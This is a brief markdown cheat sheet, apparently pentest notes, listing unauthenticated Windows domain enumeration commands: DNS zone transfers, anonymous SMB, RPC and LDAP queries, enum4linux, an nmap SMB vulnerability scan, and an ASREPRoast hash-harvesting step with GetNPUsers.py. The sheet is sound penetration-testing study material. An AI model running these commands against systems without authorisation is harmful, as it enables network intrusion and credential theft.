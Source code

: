 # Windows 

## Enumeration without credentials
### DNS zone transfer

	host -l domain.name dnsserver
	
	dig axfr domain.name @dnsserver
	
	dnsrecon -d domain.name -t axfr
	
### SMB Anonymous Shares

	smbclient -L //server -N
	
### Anonymous RPC

	rpcclient -U "" -N <host or IP>
	
	enumdomusers
	as well as other ones, help for commands

### LDAP

	ldapsearch -h <host or IP> -p 389 -x -b 'dc=example,dc=com'
	
### Enum4linux

	enum4linux -a <host or IP>
	
### nmap 
        
	nmap -p 139,445 --script smb-vuln* <host or IP>
	
### ASREPRoast

Requires that you harvest a list of users first, from one of the above.

	GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	
